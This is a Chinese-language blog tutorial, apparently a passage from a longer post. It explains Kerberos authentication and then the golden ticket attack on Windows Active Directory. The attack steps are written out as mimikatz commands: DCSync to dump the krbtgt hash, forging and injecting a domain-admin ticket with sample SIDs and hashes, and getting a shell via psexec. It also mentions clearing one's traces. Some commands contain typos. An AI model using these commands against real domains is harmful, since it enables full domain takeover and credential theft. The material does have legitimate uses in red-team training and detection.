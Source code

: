 至此，接下来就是清楚自己的痕迹了
### 票据
#### kerberos 协议认证过程
* 第一步：client和认证服务器（AS）通信完成认证过程，如果认证成功AS返回给client一个TGT（用来向TGS获取ticket）；
* 第二步：client和票据生成服务器（TGS）通信验证是否要去访问目标站点的权限，如果有返回一个ticket给client；
* 第三步：client带着这个票据访问待访问站点；

* 举一个简单的例子：你想坐飞机，但是机场告诉你必须有机票（TGT）才可以登机，接着你去购票处（AS）出示身份证（Client name）购买了一张机票（TGT），你拿着机票登机，在检票处（TGS）出示机票，服务人员告诉了你的座位号（Ticket），然后就可以坐到自己的位置上。
### 黄金票据
#### 黄金票据利用原理
黄金票据就是自己生成的TGT,在生成TGT的过程中，user, domain timestamp,还有权限信息都会经过krbtgt(该账号不自动更新)账户hash的加密，所以获取到用户，域，SID,krbtgt的hash值就可以生成黄金票据，生成的票据是是域管账号的，这样就控制了整个域，而且有了金票据，免除了username,password验证，所以就不用担心域管理修改密码

#### 黄金票据利用
我们先导出krbtgt的ntml hash 或者aes256
1.可以通过mimikate导出也可以我们获取到ntds.dit
mimikatz导出命令
> mimikatz   "lsadump::dcsync /domain:test.org /user:krbtgt" > log.txt
2. 然后通过ntml hash生成票据并导入一次性命令
> .\mimikatz “kerberos::golden  /user:whoami  /domain:test.org    /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321  /ptt” exit

3. 分步命令
```
kerberos::purge //删除已经有的缓存
kerberos::gloden /domain:shiyan.com /sid:S-1-5-21-1519369487-284112811-2415659819 /krbtgt:fb147173be1b6a2a8eac268939dd6 /user:Administrator /ticket:test.kribi  //生成票据
kerberos::ptt test.kribi //导入内存
```



可以通过klist查看导入的凭证
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200305103608693.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk5OTM3Mg==,size_16,color_FFFFFF,t_70)

尝试是否成功
	
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200305103025402.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk5OTM3Mg==,size_16,color_FFFFFF,t_70)
可以通过psexec 获取一个交互式shell
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200305103805978.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk5OTM3Mg==,size_16,color_FFFFFF,t_70)

对其中一些命令的解释
```
/domain -----完整的域名，在这个例子中：“test.org”
/ sid ----域的SID
/ user ---伪造的用户名
/ groups（可选）---用户所属的组RID（第一组是主组）。添加用户或计算机帐户RID以接收相同的访问权限。默认组：513,512,520,518,519为默认的管理员组。
/ krbtgt---域KDC服务帐户（KRBTGT）的NTLM密码哈希值。用于加密和签署TGT。
/ ticket（可选） - 提供一个路径和名称，用于保存Golden Ticket文件以便日后使用或使用/ ptt立即将黄金票据插入内存以供使用。
/ ptt - 作为/ ticket的替代品 - 使用它来立即将伪造的票据插入到内存中以供使用。

/ aes256 - AES256密钥(可替换/krbtgt:ntml)
````
